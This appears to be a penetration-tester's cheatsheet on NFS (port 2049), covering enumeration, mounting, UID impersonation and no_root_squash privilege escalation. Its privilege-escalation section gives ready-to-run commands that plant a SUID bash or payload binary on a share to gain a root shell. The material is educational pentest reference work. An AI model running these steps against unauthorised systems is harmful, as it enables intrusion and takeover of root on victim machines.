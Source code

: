 ```yaml
---
Ports: 2049
Description: It is a client/server system that allows users to access files across a network and treat them as if they resided in a local file directory.
---
```


# Enumeration

- [NSE (Nmap Scripting Engine)](../Tools/nmap.md#NSE%20(Nmap%20Scripting%20Engine))

```bash
nfs-ls #List NFS exports and check permissions
nfs-showmount #Like showmount -e
nfs-statfs #Disk statistics and info from NFS share
```

- [msfconsole (auxiliary modules)](../Tools/msfconsole.md#Auxiliary%20Modules)

```bash
scanner/nfs/nfsmount #Scan NFS mounts and list permissions
```

## Mounting

- [showmount](../Tools/showmount.md)

```
showmount -e <IP>	# To know which folder has the server available to mount you an ask it using:
```

- mount

```
mount -t nfs [-o vers=2] <ip>:<remote_folder> <local_folder> -o nolock

# Example
mkdir /mnt/new_back
mount -t nfs [-o vers=2] 10.12.0.150:/backup /mnt/new_back -o nolock
```

---

# Exploitation

## Permissions

If you mount a folder which contains **files or folders only accessible by some user** (by **UID**). You can **create** **locally** a user with that **UID** and using that **user** you will be able to **access** the file/folder.

---

# Privilege Escalation

## NFS no_root_squash/no_all_squash misconfiguration PE (Remote)

Read the `/etc/exports` file, if you find some directory that is configured as `no_root_squash`, then **you can access it from as a client and write inside that directory as if you were the local root** of the machine.

**`no_root_squash`**: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

**`no_all_squash`**: This is similar to `no_root_squash` option but applies to non-root users. Imagine, you have a shell as nobody user; checked `/etc/exports` file; no_all_squash option is present; check `/etc/passwd` file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.

- **Mounting that directory** in a client machine, and **as root copying** inside the mounted folder the **`/bin/bash`** binary and giving it **SUID** rights, and **executing from the victim** machine that bash binary.

```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```

- **Mounting that directory** in a client machine, and **as root copying** inside the mounted folder our come compiled payload that will abuse the SUID permission, give to it **SUID** rights, and **execute from the victim** machine that binary. [^1]

[^1]: [C](../Web%20&%20Network%20Hacking/Shell%20Cheatsheet.md#C)

```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```

## NFS no_root_squash/no_all_squash misconfiguration PE (Local)

- https://www.errno.fr/nfs_privesc.html
- [https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe#local-exploit](https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe#local-exploit)

---

# Misc

## Config files

```
/etc/exports
/etc/lib/nfs/etab
```

## Other tools

- [NFSShell](https://github.com/NetDirect/nfsshell) (to easily list, mount and change UID and GID to have access to files)